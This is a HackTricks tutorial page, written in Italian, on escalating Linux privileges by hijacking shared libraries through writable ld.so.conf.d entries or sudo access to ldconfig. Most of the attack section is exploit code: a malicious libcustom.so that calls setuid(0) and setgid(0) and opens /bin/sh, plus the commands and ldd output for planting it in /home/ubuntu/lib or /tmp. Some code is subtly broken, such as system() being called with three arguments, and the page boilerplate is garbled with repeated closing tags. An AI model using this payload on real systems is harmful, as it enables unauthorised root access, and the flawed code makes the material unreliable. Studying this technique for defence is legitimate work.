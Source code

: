 # ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## Preparare l'ambiente

Nella sezione seguente puoi trovare il codice dei file che utilizzeremo per preparare l'ambiente

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **Crea** quei file nella tua macchina nella stessa cartella
2. **Compila** la **libreria**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Copia** `libcustom.so` in `/usr/lib`: `sudo cp libcustom.so /usr/lib` (privilegi di root)
4. **Compila** l'**eseguibile**: `gcc sharedvuln.c -o sharedvuln -lcustom`

### Controlla l'ambiente

Controlla che _libcustom.so_ venga **caricato** da _/usr/lib_ e che tu possa **eseguire** il binario.
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

In questo scenario supponiamo che **qualcuno abbia creato un'entrata vulnerabile** all'interno di un file in _/etc/ld.so.conf/_:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
La cartella vulnerabile è _/home/ubuntu/lib_ (dove abbiamo accesso in scrittura).\
**Scarica e compila** il seguente codice all'interno di quel percorso:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
Ora che abbiamo **creato la libreria maligna libcustom all'interno del percorso mal configurato**, dobbiamo aspettare un **riavvio** o che l'utente root esegua **`ldconfig`** (_nel caso in cui tu possa eseguire questo binario come **sudo** o abbia il **bit suid** potrai eseguirlo tu stesso_).

Una volta che ciò è accaduto, **ricontrolla** da dove l'eseguibile `sharevuln` sta caricando la libreria `libcustom.so`:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
Come puoi vedere, **lo sta caricando da `/home/ubuntu/lib`** e se un utente lo esegue, verrà eseguita una shell:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
Nota che in questo esempio non abbiamo elevato i privilegi, ma modificando i comandi eseguiti e **aspettando che l'utente root o un altro utente privilegiato esegua il binario vulnerabile** saremo in grado di elevare i privilegi.
{% endhint %}

### Altre configurazioni errate - Stessa vulnerabilità

Nell'esempio precedente abbiamo simulato una configurazione errata in cui un amministratore **ha impostato una cartella non privilegiata all'interno di un file di configurazione dentro `/etc/ld.so.conf.d/`**.\
Ma ci sono altre configurazioni errate che possono causare la stessa vulnerabilità; se hai **permessi di scrittura** in qualche **file di configurazione** dentro `/etc/ld.so.conf.d`, nella cartella `/etc/ld.so.conf.d` o nel file `/etc/ld.so.conf` puoi configurare la stessa vulnerabilità e sfruttarla.

## Exploit 2

**Supponi di avere privilegi sudo su `ldconfig`**.\
Puoi indicare a `ldconfig` **da dove caricare i file di configurazione**, quindi possiamo approfittarne per far caricare a `ldconfig` cartelle arbitrarie.\
Quindi, creiamo i file e le cartelle necessari per caricare "/tmp":
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
Ora, come indicato nel **precedente exploit**, **crea la libreria malevola all'interno di `/tmp`**.\
E infine, carichiamo il percorso e controlliamo da dove il binario sta caricando la libreria:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**Come puoi vedere, avere privilegi sudo su `ldconfig` ti consente di sfruttare la stessa vulnerabilità.**

{% hint style="info" %}
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
